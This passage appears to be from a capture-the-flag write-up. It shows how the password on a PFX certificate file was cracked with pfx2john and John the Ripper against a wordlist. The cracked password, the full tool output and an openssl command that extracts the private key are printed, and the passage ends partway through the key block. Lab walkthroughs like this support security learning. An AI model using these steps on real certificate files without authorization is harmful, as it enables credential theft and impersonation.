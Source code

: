 Hm… what if we need to crack this one too? lets try:

## Cracking the pfx file

Convert pfx to crackable hash:

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
```

Then use john to crack it

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt pfx.hash
```

```bash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:29 DONE (2025-08-18 16:09) 0.03392g/s 109624p/s 109624c/s 109624C/s thuglife06..thsco04
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

nice! we got the password and it is `thuglegacy` , so the credentials gathered are:

```bash

legacyy_dev
thuglegacy 
```

## Extracting information from the pfx

Now lets get back on the pfx, i tried using certipy but i had no luck, so i tried openssl:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -info
```

when prompted for password and pem key, just type the password you found, then the output is:

```bash
Enter Import Password:
MAC: sha1, Iteration 2000
MAC length: 20, salt length: 20
PKCS7 Data
Shrouded Keybag: pbeWithSHA1And3-KeyTripleDES-CBC, Iteration 2000
Bag Attributes
    Microsoft Local Key set: <No Values>
    localKeyID: 01 00 00 00 
    friendlyName: te-4a534157-c8f1-4724-8db6-ed12f25c2a9b
    Microsoft CSP Name: Microsoft Software Key Storage Provider
Key Attributes
    X509v3 Key Usage: 90 
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
-----BEGIN ENCRYPTED PRIVATE KEY-----
MIIFLTBXBgkqhkiG9w0BBQ0wSjApBgkqhkiG9w0BBQwwHAQIvqdRIH7/tQACAggA
MAwGCCqGSIb3DQIJBQAwHQYJYIZIAWUDBAEqBBB+LdrmPTY3OzPVQVS+4MogBIIE
0AA/RzGe1fmDa+7G0XEsVa9v/eP5AU/2rrmjtXA6oTNTKrpAJdcY8IxzkoY+hAyK
hG8yRnOv5/TxWYNtRQyIHDk86/ccnWwc7Mi1gpy78SRGXfngQNTCq0F+nRrzwwOF
BUW/vlQGcaNX8urU61uzAJN4m5SWBKSm7LYeyUejv3Yp/h7OTSMIwp+7rHY0jPg1
v5wj4CRLTMyB2/TuAsxErinIZ8GokxrPOLHtpybP5cq1dkCtxcxs4DyuW/WWzs50
```